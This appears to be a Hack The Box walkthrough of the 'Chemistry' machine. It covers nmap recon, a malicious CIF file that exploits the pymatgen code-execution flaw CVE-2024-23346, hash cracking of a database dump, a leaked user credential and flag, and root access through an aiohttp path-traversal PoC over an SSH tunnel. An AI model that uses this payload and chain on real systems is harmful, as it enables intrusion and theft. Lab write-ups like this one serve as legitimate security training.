 
starting with some nmap 

```
nmap -p- -sV -sS -Pn -v -oN nmap.txt -T5 10.10.11.38

Nmap scan report for 10.10.11.38
Host is up (0.083s latency).
Not shown: 64405 closed tcp ports (reset), 1128 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.9.5)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

some http server on port 5000 



<img src="https://raw.githubusercontent.com/Baga6312/HTB-Writeups/refs/heads/main/machines/chemistry/img/Pasted%20image%2020250130045656.png">


its some CIF file analyser 

![[Pasted image 20250130040249.png]]

registering will redirect us to this page .. which without further investigating appears that we can exploit it with some reverse shell and access the server 

![[Pasted image 20250130045656.png]]

but we get some endpoints  `/upload`  , more investigating with burpsuite 

![[Pasted image 20250130050214.png]]

ig it only accepts `.cif` files 
# Analyse the .cif format file 

after some googling , found that u can actually have an RCE with a .cif file [ (CVE-2024-23346)](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346)
parsing a # transformation_string can give us a way to some internal built_in python function 

lets test the vurnability first : 
we have `example.cif` and we will add the exploit at the end 
```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

the actual arbitrary code call  

now lets fire up some PoC python script `exploit.py`

```
from pymatgen.io.cif import CifParser
parser = CifParser("vuln.cif")
structure = parser.parse_structures()
```

install the pymatgen library and run the script 

```
pip3 install pymatgen 
python3 exploit.py 
```

NOTE : many of u will try to execute the script but nothing will pop out , the reason of that cuz using a pacthed version of pymatgen .. make sure to install the the unpatched version when testing the exploit 

```
pip3 install pymatgen=2024.2.8 --break-system-packages 
```

voila 

![[Pasted image 20250130061141.png]]

now we can generate a reverse shell with https://www.revshells.com/ 

![[Pasted image 20250130061407.png]]

we upload the file with the reverse shell and now we have a shell 

![[Pasted image 20250130062638.png]]

upgrade from simple shell to an interactive shell (Recommanded in every machine u play )

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

now we get to the real work . we have rosa user and ofc we dont have permession for the home folder 

![[Pasted image 20250130063429.png]]

and we have a `database.db` file under instance .. lets try it 

![[Pasted image 20250130064817.png]]

list of hashes and hash of rosa among them , ill c rack it with crackstation cuz its easy and online 

![[Pasted image 20250130064935.png]]

we have password , lets validate it 

![[Pasted image 20250130065305.png]]

rosa:unicorniosrosados 
user.txt : 701936ae5503aa56dffdf9646166e79b 
# Privilege Escalation 
lets elevate our writes to root for the root flag 

![[Pasted image 20250130065612.png]]

i would like to try some linpease but its soo verbose and theres so many output ..  so ill skip to the result 

in the /opt folder theres a `monitoring_site`  we dont have the right to it cuz its under root .. thats a good thing .. so we have to find a way to it . 
theres smthing running localy on port 8080 

![[Pasted image 20250130070243.png]]

forward it to ur local machine 

```
ssh -L 8080:localhost:8080 rosa@10.10.11.38
```

![[Pasted image 20250130070508.png]]

enumerating this monitoring website . maybe we can find something . since the folder under root user so it must run under root 

![[Pasted image 20250130071853.png]]

aiohttp/3.9.1 server 
after some digging i found an exploit for that (https://github.com/z3rObyte/CVE-2024-23334-PoC) 

```
pip3 install -r requirements.txt
python3 server.py
bash exploit.sh
```

and we have root 




root.txt :  




[[machines]]
